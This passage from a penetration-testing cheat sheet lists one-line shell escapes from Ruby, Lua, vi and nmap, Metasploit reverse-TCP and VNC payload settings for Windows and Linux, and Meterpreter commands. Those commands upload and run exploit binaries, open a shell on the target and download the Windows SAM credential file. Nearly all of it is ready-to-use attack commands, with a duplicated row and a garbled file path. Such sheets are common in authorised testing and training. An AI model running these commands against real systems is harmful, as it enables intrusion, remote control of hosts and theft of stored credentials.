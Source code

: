 ### Spawn Ruby TTY Shell

exec "/bin/sh"

### Spawn Lua TTY Shell

os.execute('/bin/sh')

### Spawn TTY Shell from Vi

Run shell commands from vi:

:!bash

### Spawn TTY Shell NMAP

!sh

## **Metasploit Cheat Sheet**

A basic metasploit cheat sheet that I have found handy for reference.

Basic Metasploit commands, useful for reference, for pivoting see - [Meterpreter Pivoting](https://highon.coffee/blog/ssh-meterpreter-pivoting-techniques/) techniques.

### Meterpreter Payloads

### Windows reverse meterpreter payload

| Command | Description |
| --- | --- |
| set payload windows/meterpreter/reverse_tcp | Windows reverse tcp payload |

### Windows VNC Meterpreter payload

| Command | Description |
| --- | --- |
| set payload windows/vncinject/reverse_tcp<br>set ViewOnly false | Meterpreter Windows VNC Payload |

### Linux Reverse Meterpreter payload

| Command | Description |
| --- | --- |
| set payload linux/meterpreter/reverse_tcp | Meterpreter Linux Reverse Payload |

## **Meterpreter Cheat Sheet**

Useful meterpreter commands.

| Command | Description |
| --- | --- |
| upload file c:\\windows | Meterpreter upload file to Windows target |
| download c:\\windows\epair\\sam /tmp | Meterpreter download file from Windows target |
| download c:\\windows\epair\\sam /tmp | Meterpreter download file from Windows target |
| execute -f c:\\windows\temp\exploit.exe | Meterpreter run .exe on target - handy for executing uploaded exploits |
| execute -f cmd -c | Creates new channel with cmd shell |
| ps  | Meterpreter show processes |
| shell | Meterpreter get shell on the target |